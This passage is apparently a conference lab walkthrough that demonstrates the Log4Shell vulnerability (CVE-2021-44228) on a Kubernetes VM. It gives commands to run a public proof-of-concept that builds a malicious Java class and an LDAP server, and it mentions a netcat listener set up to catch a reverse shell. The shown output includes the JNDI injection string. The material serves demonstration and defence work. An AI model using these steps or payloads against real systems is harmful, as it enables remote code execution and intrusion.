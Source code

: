 ![Screenshot](log4j_login.png)

SSH into the Ubuntu VM node with 2 terminals:
Terminal 2: to setup the LDAP server (which contains the malicious java class)
Terminal 3: to start the netcat listener (which will receive the reverse shell)

```bash
gcloud compute ssh --zone "europe-central2-a" "gke-logj4-kubecon-2023-default-pool-3f2550a2-m8tm" --project "cilium-dev"
```

[Terminal 2] Start the POC exploit, that creates the malicious java class and sets up an 
LDAP server which will listen on port `1389`.
```bash
cd log4j-shell-poc/
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001
```

[Terminal 2] The output should be something like this:
```bash
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}
[+] Starting Webserver on port 8000 http://0.0.0.0:8000

Listening on 0.0.0.0:1389
```
